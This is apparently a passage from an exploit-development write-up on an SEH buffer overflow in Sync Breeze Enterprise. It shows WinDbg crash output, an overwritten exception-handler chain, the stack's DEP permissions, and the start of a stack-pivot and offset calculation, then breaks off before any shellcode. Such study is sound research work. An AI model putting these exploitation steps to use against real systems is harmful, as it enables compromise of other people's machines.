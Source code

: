 
Running the application in windbg and then triggering the crash shows:
```
(30f8.2de4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
eax=42424242 ebx=0331fa0c ecx=0331ff08 edx=0331f9c4 esi=0331ff08 edi=0331fb10
eip=008b2a9d esp=0331f998 ebp=0331feb8 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
libpal!SCA_ConfigObj::Deserialize+0x1d:
008b2a9d ff5024          call    dword ptr [eax+24h]  ds:002b:42424266=????????
```

As this is an SEH exploit we should look at the exception handler chain.
```
0:012> !exchain
0331fe0c: libpal!md5_starts+149fb (0092df5b)
0331ff44: 44444444
Invalid exception stack at 43434343
```

This shows that the next SEH handler is `0x44444444` or `DDDD` which is something we control! 
To figure out where to go from here we should check the page permissions of the stack if it is RWX we can do a `pop pop ret;` and point the SEH handler to a location on the stack and execute our shell code. If it is not executable (NX / DEP enabled) then we will have to use ROP.
```
0:012> !address @esp
... snip ...

Usage:                  Stack
Base Address:           0331e000
End Address:            03320000
Region Size:            00002000 (   8.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          PAGE_READWRITE
Type:                   00020000          MEM_PRIVATE

Content source: 1 (target), length: 1724
```

# Stack Pivot
When an expection handler is called, the `esp` register shall be decremented by a fair bit from where the top of our payload is. To fix this we need to put a gadget in the SEH address (currently populated with `DDDD`) that will `add esp <offset>; ret` and return esp back to where our shellcode is.

To find the offset, we need esp when the exception is getting handled and the location of the top of our buffer.

At the time of the exception: `0x02d1f560` and the top of the buffer is at `0x02d1fa10`

Meaning we need a jump close to `0x4b0`
